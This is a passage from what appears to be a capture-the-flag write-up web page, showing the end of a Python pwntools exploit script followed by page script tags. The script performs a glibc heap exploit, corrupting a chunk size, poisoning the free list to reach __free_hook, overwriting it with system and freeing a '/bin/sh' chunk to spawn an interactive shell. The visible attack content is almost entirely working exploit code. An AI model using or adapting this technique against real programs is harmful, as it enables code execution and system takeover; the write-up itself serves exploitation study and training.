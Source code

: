     create(r,48,b'/bin/sh\x00')
    create(r,24,b'f'*23)
    #edit(r,4,b'f'*24+p64())
    
    delete(r,4)
    delete(r,6)
    create(r,24,b'T'*23)
    
    create(r,24,b'gggggggg')
    edit(r,4,b'T'*24+p8(0x51))
    
    delete(r,6)
    create(r,60,b'8'*24+p64(0xc1)+p64(libc.sym.__free_hook))
    create(r,0xb0,p64(libc.sym.system))
    create(r,0xb0,p64(libc.sym.system))
    delete(r,3)
    #gdb.attach(r)
    r.interactive()

main()</code></pre>
        </div>
    </div>
</section>
</section>



<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/9000.0.1/prism.min.js" integrity="sha512-UOoJElONeUNzQbbKQbjldDf9MwOHqxNz49NNJJ1d90yp+X9edsHyJoAs6O4K19CZGaIdjI5ohK+O2y5lBTW6uQ==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/9000.0.1/components/prism-python.min.js" integrity="sha512-3qtI9+9JXi658yli19POddU1RouYtkTEhTHo6X5ilOvMiDfNvo6GIS6k2Ukrsx8MyaKSXeVrnIWeyH8G5EOyIQ==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/9000.0.1/components/prism-c.min.js" integrity="sha512-EWIJI7uQnA8ClViH2dvhYsNA7PHGSwSg03FAfulqpsFiTPHfhdQIvhkg/l3YpuXOXRF2Dk0NYKIl5zemrl1fmA==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/9000.0.1/components/prism-bash.min.js" integrity="sha512-35RBtvuCKWANuRid6RXP2gYm4D5RMieVL/xbp6KiMXlIqgNrI7XRUh9HurE8lKHW4aRpC0TZU3ZfqG8qmQ35zA==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>


<script src="https://cdn.jsdelivr.net/npm/@popperjs/core@2.11.6/dist/umd/popper.min.js"></script>
<script src="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0-alpha1/dist/js/bootstrap.min.js"></script>
<script src="{{ '/writeups/copy.js' | relative_url }}"></script>

